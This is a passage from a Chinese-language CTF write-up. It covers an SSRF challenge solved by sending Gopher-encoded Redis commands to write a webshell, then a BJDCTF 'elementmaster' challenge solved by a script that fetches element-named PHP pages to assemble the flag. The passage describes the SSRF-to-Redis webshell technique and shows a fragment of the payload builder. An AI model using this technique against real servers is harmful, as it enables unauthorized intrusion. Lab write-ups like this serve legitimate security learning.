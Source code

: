 ```
		payload += urllib.quote(redis_format(x))
	print payload 
```

*   cmd 变量 为redis可以执行的命令格式。也就是上面介绍`redis`服务最后那部分。然后 redis_format 函数再进行数据包格式转换，也就是给redis发命令，按照他的序列化规则来转换。最后是url编码，避免格式错误。
*   将得到的字符串在题目中提交，然后再访问运行有redis的主机ip/shell.php。得到flag。
    ![在这里插入图片描述](img/e9f4b426822e53da4567b3be569a507a.png)
*   虽然说得到结果很容易，但理解解释就不好说。第一步的绕过 file 协议的过滤来读取源代码，还得猜一下路径，不过这个路径应该说是默认的。第二步找内网存活主机和端口，主机可能比较号好找，但端口太多了，可能就不好找，不过也可以猜常见服务运行的端口。第三步就是通过 Gopher 协议来发送数据包通过 redis 服务写入 webshell 最后成功解题。
*   主要是得知道 redis 服务在SSRF中的利用。

### 2、[BJDCTF 2nd]elementmaster

```
import requests
import time
url='http://c0c35ceb-d134-4829-b954-83b4d9c69807.node3.buuoj.cn/'
flag=''
element=['H', 'He', 'Li', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'Na', 'Mg', 'Al', 'Si', 'P', 'S', 'Cl', 'Ar',
        'K', 'Ca', 'Sc', 'Ti', 'V', 'Cr', 'Mn', 'Fe', 'Co', 'Ni', 'Cu', 'Zn', 'Ga', 'Ge', 'As', 'Se', 'Br',
        'Kr', 'Rb', 'Sr', 'Y', 'Zr', 'Nb', 'Mo', 'Te', 'Ru', 'Rh', 'Pd', 'Ag', 'Cd', 'In', 'Sn', 'Sb', 'Te',
        'I', 'Xe', 'Cs', 'Ba', 'La', 'Ce', 'Pr', 'Nd', 'Pm', 'Sm', 'Eu', 'Gd', 'Tb', 'Dy', 'Ho', 'Er', 'Tm',
        'Yb', 'Lu', 'Hf', 'Ta', 'W', 'Re', 'Os', 'Ir', 'Pt', 'Au', 'Hg', 'Tl', 'Pb', 'Bi', 'Po', 'At', 'Rn',
        'Fr', 'Ra', 'Ac', 'Th', 'Pa', 'U', 'Np', 'Pu', 'Am', 'Cm', 'Bk', 'Cf', 'Es', 'Fm','Md', 'No', 'Lr',
        'Rf', 'Db', 'Sg', 'Bh', 'Hs', 'Mt', 'Ds', 'Rg', 'Cn', 'Nh', 'Fl', 'Mc', 'Lv', 'Ts', 'Og', 'Uue']

for i in element:
        r=requests.get(url+i+'.php')
        if r.status_code == 200:
                time.sleep(1)
                flag+=r.text
                print flag 
```
